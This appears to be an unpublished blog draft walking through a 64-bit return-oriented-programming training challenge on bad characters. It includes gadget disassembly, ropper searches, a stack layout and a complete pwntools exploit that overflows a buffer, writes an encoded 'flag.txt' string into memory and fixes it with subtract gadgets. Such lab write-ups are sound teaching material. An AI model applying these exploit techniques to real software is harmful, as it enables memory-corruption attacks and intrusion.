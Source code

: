 
---
layout: post
title: ROP x64 Challenge 5
status: in progress
type: post
published: false
comments: true
date: 2022-07-13
---
## Challenge 5

Now we have the challenge of dealing with bad chars in our exploit. Not all exploitable programs are so nice to just read in whatever you give it. For example if you are sending a string of text, it may end on a newline, carriage return, or null space. However, you may need these characters to do your dream exploit. 

In order to get around this problem, we have to give the program chars that are accepted then later modify them into what we want. In this exploit, we have to do basically the same thing as the last exploit, however we are unable to pass the characters 'x', 'g', 'a', or '.' and all of those are needed to write in "flag.txt". So what we are going to do is write in some known ("but arbitrary") value's into the location of the bad chars. Then we will use gadgets to modify those values into what we want.

For example, rather then writing 'a' into the binary we write 'b' then we simply subtract 1 from that memory location. 


By this point, I realized that the author of the challenge's had included an 'usefulGadgets' section in the binary (probably should have sooner), so the first thing to do is look over those gadgets and see what we have to work with.

```
pwndbg> disass usefulGadgets 
Dump of assembler code for function usefulGadgets:
   0x0000000000400628 <+0>:     xor    BYTE PTR [r15],r14b
   0x000000000040062b <+3>:     ret    
   0x000000000040062c <+4>:     add    BYTE PTR [r15],r14b
   0x000000000040062f <+7>:     ret    
   0x0000000000400630 <+8>:     sub    BYTE PTR [r15],r14b
   0x0000000000400633 <+11>:    ret    
   0x0000000000400634 <+12>:    mov    QWORD PTR [r13+0x0],r12
   0x0000000000400638 <+16>:    ret    
   0x0000000000400639 <+17>:    nop    DWORD PTR [rax+0x0]
End of assembler dump.
```

We can see that we probably need to control r12, r13, r14, r15, and rdi (first arg) in order to make use of these gadgets, so let's see if we have pop's for those.

```
pwndbg> ropper -- --search "pop r1?"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop r1?

[INFO] File: /root/working/badchars/badchars_64/badchars
0x000000000040069c: pop r12; pop r13; pop r14; pop r15; ret; 

pwndbg> ropper -- --search "pop rdi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: /root/working/badchars/badchars_64/badchars
0x00000000004006a3: pop rdi; ret;
```

We can use the same write location from before to make the challenge as well.

We could use any of the xor, add, or sub modifying gadgets there (also or and and gadgets would work), but I'll use the sub gadget. So what we're going to do is place the ascii char 1 value greater in place of every bad char and then just subtract one from each of those location. So the stack will look like the following:

```
         | stack          |
         | -------------- |
32 bytes | start buffer   |
8  bytes | base pointer   | 
8  bytes | pop_r gadget   | # gadget to get values into r12 through r15
8  bytes | "flag.txt"     | # 1st 8 bytes of the string into r12
8  bytes | write loc      | # place location to write into r13
8  bytes | 1              | # the amount to subtract into r14
8  bytes | write loc + 2  | # the loc of the first char to change 'a' into r15
8  bytes | sub gadget     | # gadget to actually modify memory
8  bytes | pop_r + 3      | # pop only r15 off because the other registers can stay the same
8  bytes | write loc + 3  | # loc of 'g'
8  bytes | sub gadget     |
8  bytes | write loc + 4  | # loc of '.'
8  bytes | sub gadget     |
8  bytes | write loc + 6  | # loc of 'x'
8  bytes | sub gadget     | # now flag.txt should be in memory
8  bytes | pop_rdi gadget | # place location of the sring in rdi for 1st param
8  bytes | write loc      | 
8  bytes | print_file loc | # call function to win
8  bytes | -------------- |

```

When I wrote up this exploit, it worked perfectly until I attempted to modify the '.' character and then some of my payload wasn't getting through. After some debugging, I discovered that the location pointer for write_loc+4 actually contained the hex value of one of the bad chars. So after some experimenting, I ended up shifting the location of my write up 3 bytes which is the write_loc + 3 in my exploit. You'll also see a check for bad chars at the end of the exploit so I don't run into that problem again.


```python 
#!/usr/bin/python3

from pwn import *
# pop r12; pop r13; pop r14; pop r15; ret; 
pop_gaget       = p64(0x40069c)
pop_15  = p64(0x4006a2)

# Move [r13] r12
write_gaget     = p64(0x400634)
pop_rdi         = p64(0x4006a3)
write_loc       = 0x601028 + 3
print_file      = p64(0x400620)
back_junk       = b"B" * 20
# sub    BYTE PTR [r15],r14b
sub_gaget = p64(0x0000000000400630)

# The amount to fill the buffer
junk = b'A' * 0x20

# The 8 bytes to fill the new base pointer from the leave
new_bp = p32(0xc0deba5e)*2

badChars = b"xga."

"""
Place a string (1st arg) into the location
given by the 2nd arg. Note the 2nd arg should be 
packed
"""
import binascii
def print_payload(payload):
        for i in range(0, len(payload), 8):
                continue
            # print(binascii.hexlify(payload[i:i+8]))

def string_place(write_string, write_start):
        returnPayload = b""
        toModify = []
        for i in range(0, len(write_string), 8):
                returnPayload += pop_gaget
                # r12 Value
                temp = write_string[i:i+8]
                # pad in the values so it always fills in all 8 bytes
                temp += b"\x00" * ( 8 - len(temp) )
				
                x = b""
                for j in range(len(temp)):
						
                        #the while loop will keep modifing the value untill it is a good char
                        if temp[j] in badChars:
                                        x += (int(temp[j]) + 1).to_bytes(1, 'big')
											
                                        # this should be the exact memory address of the bad character
                                        toModify.append(write_start + i + j)
                        else:
                                x += temp[j].to_bytes(1, 'big')
                temp = x
                returnPayload += temp
                #destination r13
                returnPayload += p64( write_start+ (i))
                # This is the r14 value
                returnPayload += p64(0x01)
                # This is the r15 value
                returnPayload += p64(0xdeadbeefcafebabe)
                returnPayload += write_gaget
        for i in toModify:
                temp = b""
                temp += pop_15
					
                # This is the r15 value the lopcation to store and subtract from 
                temp += p64(i)
                temp += sub_gaget
                returnPayload += temp
        return returnPayload

"""
Place the value for the first args of a function
"""
def first_arg(var):
        returnPayload = pop_rdi
        returnPayload += p64(var)
        return returnPayload



io = process('./badchars')

#Fill up the buffer and the base pointer
payload = junk + new_bp

payload += string_place(b"./flag.txt", write_loc)

# This is the vaddr of system
# First return to the location of the pop rdi
payload += first_arg(write_loc)
payload += print_file

payload += back_junk


# print("The payload is:")
# print(payload)
print("Payload size is:" + str(len(payload)))

for i in range(len(payload)):
        if payload[i] in badChars:
                print("Warning bad char detected")
                exit()

input("Hit enter to apptempt exploit")

print(io.clean(0.5).decode("utf-8"))
io.send(payload)
input("exploit sent hit enter to end")
print(io.clean(0.5).decode("utf-8"))
sleep(1)
f = open('./payload', 'wb')
f.write(payload)
f.close()

```
